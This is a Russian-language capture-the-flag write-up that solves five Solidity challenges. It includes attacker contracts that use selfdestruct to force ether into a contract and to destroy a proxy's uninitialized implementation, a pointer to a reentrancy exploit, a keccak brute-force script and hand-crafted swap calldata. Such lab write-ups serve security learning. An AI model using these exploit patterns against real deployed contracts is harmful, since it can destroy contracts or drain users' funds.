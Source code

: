 # 0. Unpayable
Задеплоим такой контракт:

```
contract Pay{
    receive() external payable{

    }
    function destroy(address payable addr) public{
        selfdestruct(addr);
    }
}
```
Пополним его баланс переводом на его адрес, потом вызовем `destroy(<адрес контракта Unpayable>)`

# 1. Bank
Типичный reentrancy, решение Ethernaut lvl 10 почти идеально [подходит](https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14) (отличается только имя одной функции)

# 2. MagicSequence
Нужно сбрутить 4 числа, такие, что старшие 4 байта хеша будут равны `[0xbeced095, 0x42a7b7dd, 0x45e010b9, 0xa86c339e]`:
```
from eth_hash.auto import keccak
for s in ["beced095", "42a7b7dd", "45e010b9", "a86c339e"]:
    for i in range(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF):
        if keccak((i).to_bytes(32, byteorder="big")).hex()[:8]==s:
            print(i)
            break
```
Получаем числа `42, 55, 256, 9876543`. Деплоим следующий контракт и вызываем функцию `pwn(<адрес контракта задания>)`:
```
interface Magic{
      function start() public returns(bool);
}
contract Player{
    uint[] nums;
    uint pointer;
    constructor() public{
        nums.push(42);
        nums.push(55);
        nums.push(256);
        nums.push(9876543);
        pointer = 0;
    }
    function number() public returns(uint){
        return nums[pointer++];
    }
    function pwn(address addr) public{
        Magic(addr).start();
    }
}
```
# 3. Executor
Узнаем адрес Executor'а:
```
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
```
Скомпилим Executor в remix(чтоб получить abi), прицепимся к контракту по полученому адресу и вызовем `initialize()`.

Задеплоим ещё один контракт:
```
contract Destroy{
    function exec() public{
        selfdestruct(address(0));
    }
}
```
И вызовем `execute(<адрес контракта Destroy>)` у Executor.

# 4. SecureSwap
Открываем контракт роутера на сканере, выбираем любую транзакцию `swapExactTokensFortokens` и смотрим input data:
MethodID | 0x38ed1739 | Селектор
------ | ------ | -----
0 | 0000000000000000000000000000000000000000000000004b13531ed51afd1f | amountIn
1 | 00000000000000000000000000000000000000000000000000000000001fd2ff | amountOutMin
2 | 00000000000000000000000000000000000000000000000000000000000000a0 | адрес начала массива
3 | 000000000000000000000000d491ab9b2f73348226a1618a01c6285d6a49b79f | to
4 | 00000000000000000000000000000000000000000000000000000000626170bc | deadline
5 | 0000000000000000000000000000000000000000000000000000000000000002 | длина массива
6 | 0000000000000000000000006bd193ee6d2104f14f94e2ca6efefae561a4334b | первый токен
7 | 000000000000000000000000e3f5a90f9cb311505cd691a46596599aa1a0ad7d | второй токен

Собираем все как нам нужно:
MethodID | 0x38ed1739 | Селектор
------ | ------ | -----
0 | 00000000000000000000000000000000000000000000000000038d7ea4c68000 | amountIn(количество WMOVR в Wei)
1 | 0000000000000000000000000000000000000000000000000000000000000001 | amountOutMin
2 | 00000000000000000000000000000000000000000000000000000000000000a0 | адрес начала массива
3 | 000000000000000000000000\<contract.address\> | to
4 | 00000000000000000000000000000000000000000000000000000000f26170bc | deadline (просто побольше)
5 | 0000000000000000000000000000000000000000000000000000000000000003 | длина массива
6 | 000000000000000000000000\<WMOVR\> | первый токен
7 | 000000000000000000000000\<USDC\> | второй токен
8 | 000000000000000000000000\<DAI\> | третий токен (просто адрес любого токена не из списка)
